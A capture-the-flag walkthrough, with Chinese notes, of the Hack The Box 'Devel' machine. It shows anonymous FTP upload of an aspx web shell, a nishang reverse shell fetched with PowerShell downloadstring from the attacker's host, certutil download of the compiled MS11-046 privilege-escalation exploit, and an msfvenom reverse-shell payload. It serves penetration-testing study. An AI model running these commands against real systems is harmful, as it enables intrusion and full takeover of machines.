


**Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.**

```
Devel 虽然相对简单，但演示了与某些默认程序配置相关的安全风险
它是一个初学者级别的机器，可以使用公开可用的漏洞来完成
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.62.217 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.62.217

ORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
```


### <span style="color:lightgreen">FTP - TCP 21</span>

```
ftp 10.129.62.217
Connected to 10.129.62.217.
220 Microsoft FTP Service
Name (10.129.62.217:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

```
可匿名登录,貌似是iis的web默认目录
```

### <span style="color:lightgreen">Website - TCP 80</span>


```
curl -I 10.129.62.217
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 26 Apr 2024 08:01:44 GMT
```

```
默认页
```

## <span style="color:lightblue">Foothold</span>
### <span style="color:lightgreen">Webshell Upload</span>

```
cp /opt/useful/SecLists/Web-Shells/FuzzDB/cmd.aspx ./

ftp 10.129.62.217
Connected to 10.129.62.217.
220 Microsoft FTP Service
Name (10.129.62.217:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.aspx 
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (39.2914 MB/s)
ftp> exit
221 Goodbye.
```

### <span style="color:lightgreen">Shell</span>



```
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1

使用nishang的payload进行反弹shell

在末尾添加如下负载

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

```
sudo rlwrap nc -lvnp 443

powershell iex(new-object net.webclient).downloadstring('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')
```

```
sudo rlwrap nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.62.217.
Ncat: Connection from 10.129.62.217:49159.
Windows PowerShell running as user DEVEL$ on DEVEL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
iis apppool\web
```

## <span style="color:lightblue">Privilege Escalation</span>
### <span style="color:lightgreen">Using Watson enum</span>

```
https://github.com/rasta-mouse/Watson

Watson可以枚举缺失的 KB ,并列举出有用的权限提升漏洞
```

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v2.0.50727
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.0
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5
```

```
编译对应的x86 以及3.5 .net框架

运行

\\10.10.14.14\share\Watson.exe
```

```
MS11-046
```

### <span style="color:lightgreen">MS11-046</span>

```
https://www.exploit-db.com/exploits/40564

sudo apt-get install gcc-mingw-w64-i686
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32

certutil -urlcache -f http://10.10.14.16:8000/40564.exe exp.exe
```

```
这里遇到点问题 powershell 下执行exp 之后 权限还是iis服务账户
```

```
尝试反弹一个cmd的shell
```

```
sudo msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.16 lport=4444 -f aspx > shell.aspx

c:\Windows\System32>whoami
whoami
nt authority\system
```

